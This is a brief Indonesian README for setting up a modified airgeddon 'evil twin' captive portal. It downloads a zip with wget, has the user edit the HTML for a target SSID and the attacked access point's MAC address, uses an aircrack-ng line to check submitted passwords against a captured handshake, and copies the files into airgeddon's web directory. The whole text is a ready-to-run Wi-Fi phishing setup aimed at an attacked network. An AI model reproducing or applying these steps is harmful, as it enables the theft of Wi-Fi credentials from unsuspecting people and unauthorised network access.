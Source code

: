 # portal airgeddon 
## download dengan perintah 
```
wget https://github.com/wongganteng10/portal-airgeddon/releases/download/portal-airgeddon/perubahan-airgedon-portal-stabil-v2.zip
```

## setelah di download extrak file nya dengan perintah 
```
unzip perubahan-airgedon-portal-stabil-v2.zip
cd perubahan-airgedon-portal-stabil-v2
```

## jangan lupa kalau mau menjalankan nya rubah sesuai target 
1.  Rubah di dalam file **`index.htm`** bagian ini dengan `SSID` target
     ```
     echo -e '    <b><span>SSID-TARGET</span></b>'
     ```

2. Rubah juga di dalam file **`check.htm`** bagian MAC target yang di serang, di sini saya menggunakan MAC target ini sebagai contoh CE:32:E5:16:CD:33
     ```
     aircrack-ng -a 2 -b CE:32:E5:16:CD:33 -w "/tmp/ag1/www/ag.et_currentpass.txt" "/root/handshake-CE:32:E5:16:CD:33.cap" | grep "KEY FOUND!" > /dev/null
     ```

3. setelah di edit semuanya sesuai target yang di serang 
4. langkah selanjutnya memindahkan ke dalam file www airgedon yang di jalankan, di sini saya kebetulan ada di direktori ini 
     ```
     cd perubahan-airgedon-portal-stabil-v2
     cp * /tmp/ag1/www
     ```

## selesai


